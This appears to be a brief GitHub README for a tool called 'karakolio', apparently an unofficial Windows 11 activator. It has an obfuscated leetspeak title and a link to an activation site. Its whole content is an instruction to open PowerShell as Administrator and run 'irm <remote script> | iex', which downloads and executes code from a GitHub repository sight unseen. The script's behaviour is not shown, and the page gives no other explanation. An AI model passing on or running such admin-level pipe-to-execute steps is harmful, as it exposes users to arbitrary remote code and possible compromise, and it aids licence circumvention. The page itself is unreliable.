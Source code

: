 # karakolio Wina 11 eb3sh3 1 mn00 d4ug1 k@t0 n3g0

- [developing](https://get.activated.win/)

# Installing by using PowerShell as Administrator

```cmd
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.win | iex
```
- Optionally

```
powershell -Command "irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.ps1 | iex"
```
